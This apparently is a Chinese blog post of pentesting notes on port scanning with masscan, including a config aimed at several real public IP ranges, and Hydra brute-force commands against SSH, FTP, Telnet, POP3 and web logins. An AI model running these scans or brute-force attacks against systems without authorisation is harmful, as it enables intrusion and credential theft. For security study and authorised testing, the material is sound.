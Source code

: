 ```yaml
---
title: 端口渗透
date: 2018-08-30 18:01
categories: PT
---
```


端口渗透

<!--more-->

## 端口扫描

### telnet

`telnet 192.168.1.1 p `

### <a href='https://github.com/robertdavidgraham/masscan'>masscan</a>

#### 手工指定选项扫描

```bash
# 手工指定选项扫描
# masscan --rate=1000 -p21,22,23,25,U:69,110,143,U:161 --banners 202.181.132.0/24 103.15.135.0/24 203.174.48.0/24 203.124.10.0/24 202.65.218.0/24 202.181.196.0/24 -oL port_hacking.txt 
-p               指定要扫描的端口,同时指定多个端口要用逗号隔开
--rate           指定发包速率,根据你自己的实际带宽来定
--open-only      仅显示开放的端口
--banners        获取banners
-c               使用自定义的扫描配置文件
--ping           扫之前是否要先ping下目标
-oL              把扫描结果存到指定文件中
--excludefile    排除不扫描的ip段
```

#### 通过配置文件扫描

 ```bash
# masscan -c masscan.conf 

# klion masscan config  '#'表注释
rate =1000.00            # 指定发包速率,根据自己的实际带宽计算
output-format=list       # 指定扫描结果保存的文件格式
output-filename=/root/Desktop/port_hacking.txt     # 指定要把扫描的结果文件保存到哪里
output-status=open       # 只保留开放的端口信息
ports=80,443,8080,U:53   # 指定要扫描的端口,默认tcp,当然,你也可以指定UDP的端口,U即udp
range=203.174.48.0/24    # 指定要扫描的ip段,可以连续指定多个,中间记得逗号隔开就好了
ping=false               # 扫描的时候要不要先ping下,true表示真,即ping
banners=true             # 获取端口banner信息
excludefile=/etc/zmap/blacklist.conf    # 指定不扫描的ip段,可以把不想扫描的一些ip段都加到这个文件中,如:内网ip段是不需要扫的
 ```

### namp

### zenmap

## 端口爆破

### ssh
```bash
hydra -l root -w 10 -P pwd.txt -t 10 -v -f 192.168.1.20 ssh
======================================
-l root         指定爆破账号为root
-w 10          指定每个线程的回应时间为10S
-P pwd.txt  指定密码字典为pwd.txt
-t 10           指定爆破线程为10个
-v               指定显示爆破过程
-f               查找到第一个可以使用的ID和密码的时候停止破解
```

### https

 ```bash
# hydra -m /index.php -l username -P pass.txt IP https
 ```

### pop3

```bash
# hydra -l muts -P pass.txt my.pop3.mail pop3
```

### telnet

```bash
# hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V
```

### ftp

```bash
# hydra IP ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
# hydra IP ftp -l 用户名 -P 密码字典 -e ns -vV
```

### get方式提交,破解web登陆

```bash
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns IP http-get /admin/
or
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f IP http-get /admin/index.php
```







